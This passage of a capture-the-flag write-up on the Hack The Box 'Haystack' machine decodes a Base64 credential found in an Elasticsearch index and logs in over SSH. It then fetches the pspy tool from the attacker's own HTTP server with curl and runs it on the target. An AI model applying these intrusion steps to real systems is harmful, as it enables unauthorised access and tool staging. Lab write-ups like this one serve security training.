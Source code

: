 If there is a password, there must be a username! Lets carry on searching...
```
{
    "_id": "45", 
    "_index": "quotes", 
    "_score": 1.0, 
    "_source": {
        "quote": "Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "
    }, 
    "_type": "quote"
},
```
Finally! Likewise, there was a Base64-encoded string. Decoding it, we get `user: security`.

# user.txt

Using `security`:`spanish.is.key`, we try to log in via `ssh`.

{% highlight bash %}
$ ssh security@haystack.htb
security@haystack.htb's  password:
[security@haystack ~]$ ls
user.txt
[security@haystack ~]$ cat user.txt
04d1XXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}

# Enumeration (2)

As `security`, we need to know what processes are being runned on the machine. To do so, I will be using [pspy](https://github.com/DominicBreuker/pspy). To transfer it from my machine to this machine, I will be using `python`'s `SimpleHTTPServer` module.

On my machine:
{% highlight bash %}
$ mkdir httpserver
$ cd httpserver
$ cp ~/Downloads/pspy64 .
$ python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
{% endhighlight %}

On the `Haystack` machine:
{% highlight bash %}
[security@haystack tmp]$ curl http://10.10.14.75/pspy64 > pspy64
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 4364k  100 4364k    0     0   639k      0  0:00:06  0:00:06 --:--:--  834k
[security@haystack tmp]$ chmod 777 pspy64
[security@haystack tmp]$ ./pspy64 
{% endhighlight %}
